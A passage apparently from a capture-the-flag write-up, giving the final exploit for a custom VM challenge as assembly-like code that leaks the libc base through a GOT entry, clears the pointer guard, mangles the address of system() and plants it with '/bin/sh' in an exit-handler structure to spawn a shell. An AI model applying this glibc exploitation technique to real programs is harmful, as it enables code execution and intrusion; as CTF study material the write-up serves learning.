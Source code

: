 
Final exploit looks like this:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

add esp, 0x219050 # GOT calloc leak
pop r08
sub r08, 0x28080
pop r09
# libc base in r9 << 32 | r8


# clear fs:0x30
mov esp, ebp
sub esp, 0x2888
push 0
push 0


# craft system addr
mov eax, r09
mov ebx, r08
add ebx, 0x50d60 

# rol system addr by 0x11 (make vm stack writable)
sub esp, 0x1000
mov esi, 0x11
call rol
add esp, 0x1000
prn ebx
prn eax
jmp write_payload

// rol function implementation skipped


write_payload:

# move esp to `initial`
mov esp, ebp
add esp, 0x21af20
add esp, 8

# save /bin/sh to `arg` field
mov edx, r08
add edx, 0x1d8698
push r09
push edx

# save mangled system addr to `at` field
push eax
push ebx
```
